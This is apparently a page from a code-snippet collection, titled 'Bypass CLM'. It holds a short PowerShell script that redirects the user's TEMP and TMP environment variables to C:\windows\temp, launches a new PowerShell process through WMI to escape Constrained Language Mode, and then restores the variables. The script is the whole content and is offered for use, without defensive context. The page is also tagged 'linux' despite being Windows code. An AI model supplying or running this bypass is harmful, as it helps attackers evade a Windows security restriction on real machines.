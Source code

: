 ```yaml
---
layout: raw_code
lang: en
title: Bypass CLM
author: Paulo
author_url:
author_nickname: sorahed
tags: [linux]
code: |
  $CurrTemp = $env:temp
  $CurrTmp = $env:tmp
  $TEMPBypassPath = "C:\windows\temp"
  $TMPBypassPath = "C:\windows\temp"

  Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
  Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

  Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
  sleep 5

  #Set it back
  Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
  Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
---
```

